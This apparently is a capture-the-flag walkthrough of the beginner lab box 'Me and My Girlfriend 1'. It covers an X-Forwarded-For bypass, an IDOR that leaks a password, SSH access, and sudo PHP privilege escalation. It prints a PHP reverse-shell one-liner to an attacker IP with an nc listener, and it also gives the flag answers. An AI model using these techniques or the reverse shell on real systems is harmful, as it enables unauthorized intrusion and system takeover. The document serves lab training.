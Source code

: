 
# Me and My Girlfriend 1
## Box Description
Description: This VM tells us that there are a couple of lovers namely Alice and Bob, where the couple was originally very romantic, but since Alice worked at a private company, "Ceban Corp", something has changed from Alice's attitude towards Bob like something is "hidden", And Bob asks for your help to get what Alice is hiding and get full access to the company!

Difficulty Level: Beginner

Notes: there are 2 flag files

Learning: Web Application | Simple Privilege Escalation

## Tools Used
- arp-scan
- nmap
- burpsuite
- web-dev tools
## Enumeration
To find the IP of the VM, I performed an ARP scan:  
![img](./ss/arp.png)\
Found the IP: `192.168.122.3`

## Step 1: Nmap Scan
Performed an Nmap scan:  
![img](./ss/nmap.png)\
Discovered Apache is running. Let’s access it.

## Step 2: Accessing the Web Page
Accessing the IP in browser led to an access denied page:  
![img](./ss/site.png)\
**Tip:** Always check source code of pages.  
Found a hidden message in the source:  
![img](./ss/sourcecode.png)\
It hinted at using `X-Forwarded-For` header.

## Step 3: Using BurpSuite to Add Header
I opened BurpSuite, intercepted the request and added the `x-forwarded-for` header:  
![img](./ss/burp.png)\
Success! Gained access to "Ceban Corp":  
![img](./ss/ceban.png)

## Step 4: Exploring the App
Tried SQL injection on login page – didn’t work. So I registered an account:  
![img](./ss/rgstr.png)\
Logged in and checked profile section. The URL had an `id` parameter:  
![img](./ss/profile.png)

## Step 5: Testing for IDOR
Suspected an IDOR vulnerability – tested by changing `id` values. It worked!  
Stumbled upon an interesting user profile page with `id=5`,
Box description mentioned “Alice” so this user is important: 
![img](./ss/alice.png)\
Modified input type using browser dev tools and revealed password: `4lic3`  
![img](./ss/inspect.png)
![img](./ss/4lic3.png)

## Step 6: SSH Access
Since SSH was running, tried Alice’s creds:  
![img](./ss/ssh.png)\
And BOOM! Got in as alice.

## Step 7: Getting the User Flag
Couldn’t find anything obvious, so I explored hidden directories. Found a hidden directory `my_secret`:  
![img](./ss/ls.png)\
Inside the `my_secret` folder – flag1.txt: `gfriEND{2f5f21b2af1b8c3e227bcf35544f8f09}` and a note \
(poor Bob):  
![img](./ss/flag1.png)

## Step 8: Privilege Escalation
Checked sudo permissions – saw Alice can run PHP as root:  
![img](./ss/sudo.png)\
Upgraded to root with the following command as PHP is sudo-able:  
```bash
sudo php -r 'system("/bin/bash");'
```  
![img](./ss/php.png)

### Alternative method:
```bash
sudo php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```
note: IP is the ip of attack device not of the victim device.\
And on another terminal(to recieve):  
```bash
nc -pvl PORT
```

## Step 9: Getting the Root Flag
Now that we’re root, headed for the flag:  
![img](./ss/flag2.png)\
Found: `gfriEND{56fbeef560930e77ff984b644fde66e7}`

---

## 🏁 Conclusion

This box was a great mix of basic enumeration, bypass techniques, and web exploitation (X-Forwarded-For header, IDOR, dev tools).  
It reinforced the importance of:

- Always checking page source and URLs
- Thinking from a user access point of view
- Exploring every input for unintended access or leakage

Loved the progression from simple access control to privilege escalation. On to the next one! 💥
